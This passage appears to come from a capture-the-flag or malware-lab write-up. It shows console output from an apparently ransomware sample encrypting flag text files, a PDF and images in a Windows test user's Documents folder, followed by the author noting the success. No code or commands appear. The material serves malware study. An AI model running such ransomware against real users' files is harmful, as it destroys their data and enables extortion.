 C:\Users\IEUser\Documents\flag_4.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_40.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_41.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_42.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_43.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_44.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_45.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_46.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_47.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_48.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_49.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_5.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_50.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_51.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_52.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_53.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_54.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_55.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_56.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_57.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_58.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_59.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_6.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_7.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_8.txt is now encrypted [!]
 C:\Users\IEUser\Documents\flag_9.txt is now encrypted [!]
 C:\Users\IEUser\Documents\IoT_security_IoTSec_considerations_requirements_and_architectures.pdf is now encrypted [!]
 C:\Users\IEUser\Documents\jM-z3b7f_400x400.jpg is now encrypted [!]
 C:\Users\IEUser\Documents\mim.png is now encrypted [!]
 C:\Users\IEUser\Documents\pexels-sebastiaan-stam-1097456.jpg is now encrypted [!]
 C:\Users\IEUser\Documents\vietnam.jpg is now encrypted [!]
 C:\Users\IEUser\Documents\z3399223868975_f9672eaf281fbf6771659ccb18692a12.jpg is now encrypted
 ```

Bingo, many `.txt` file was encrypted.